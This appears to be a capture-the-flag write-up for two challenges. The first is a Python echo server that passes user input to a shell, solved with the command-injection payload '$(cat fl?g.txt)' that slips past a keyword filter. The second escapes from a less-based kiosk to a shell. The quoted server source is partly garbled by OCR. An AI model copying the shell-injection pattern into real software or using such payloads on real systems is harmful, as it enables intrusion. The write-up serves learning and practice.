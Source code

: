 ```python
if debug: def success(string): print("[+] " + string) def error(string): sys.stderr.write("[-] " + string + "
    ") def warning(string): print(" [!]
    " + string + "
    ") def info(string): print(" [.]
    " + string + "
    ") class Service(SocketServer.BaseRequestHandler): def handle(self): self.send("
    'Chasm'
    echo server 1.0 ") while 1: try: got = self.receive() if "
    flag " in got: self.send("
    HACKER!YOU ARE A HACKER!GET OUT OF THE CHASM!") continue response = check_output("
    echo " + got, shell=True) self.send("
    ECHO: " + response) except: self.send("
    ERROR!That echo floated away the chasm
    for eternity...") def send(self, string, newline=True): if newline: string = string + "
    " self.request.sendall(string) def receive(self, prompt=" > "): self.send(prompt, newline=False) return self.request.recv(4096).strip() class ThreadedService( SocketServer.ThreadingMixIn, SocketServer.TCPServer, SocketServer.DatagramRequestHandler, ): pass def main(): info("
    Starting server...") port = 7312 host = "
    0.0 .0 .0 " service = Service server = ThreadedService((host, port), service) server.allow_reuse_address = True server_thread = threading.Thread(target=server.serve_forever) server_thread.daemon = True server_thread.start() success("
    Server started on " + str(server.server_address) + "!") # Now let the main thread just wait... while True: sleep(10) if __name__ == "
    __main__ ": main()```
```
<br/>
So the server is killing our command execution if it reads the word 'flag'. Simple enough.
```sh
> $(cat fl?g.txt)
ECHO: LLS{dangerous_echos_in_this_chasm}
```
<br/>
:checkered_flag: `LLS{dangerous_echos_in_this_chasm}`
<br/>
<br/>

### Linux Kiosk (70) :trophy:
> This public computer kiosk is weird! It just offers the man page for less?

ssh again `ssh user@jh2i.com -p 50021 # password is 'userpass'`
<br/>
Just as the prompt suggests, we get the man page for less, and then we are kicked off when we quit out of man.
<br/>
I tried appending commands to the ssh, but the appended commands run before the man page, and the man page fills the terminal line buffer (terminology here?) so we can't see our commands output.
<br/>
Since `man` pages are shown in `less`, it makes sense to RTFM...  A shell escape stands out:
```sh
!command             Execute the shell command with $SHELL.
```
<br/>
:checkered_flag: `LLS{less_is_more}`
<br/>
<br/>
